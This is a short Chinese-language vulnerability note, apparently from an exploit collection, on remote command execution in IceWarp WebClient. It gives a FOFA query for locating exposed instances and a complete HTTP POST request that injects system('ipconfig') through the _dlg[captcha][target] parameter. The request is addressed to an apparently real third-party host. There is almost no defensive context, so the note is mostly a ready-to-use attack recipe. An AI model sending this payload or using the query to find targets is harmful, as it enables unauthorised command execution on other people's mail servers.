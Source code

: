 # IceWarp-WebClient-basic-远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响

> [!NOTE]
>
> IceWarp WebClient 

## FOFA

> [!NOTE]
>
> app="IceWarp-公司产品"

## 漏洞复现

登录页面如下

![image-20210616110615816](IceWarp-WebClient-basic-远程命令执行漏洞.assets/1627363086672189.jpg)

漏洞请求包为

```
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```

![image-20210616110911190](IceWarp-WebClient-basic-远程命令执行漏洞.assets/16273630869762628.jpg)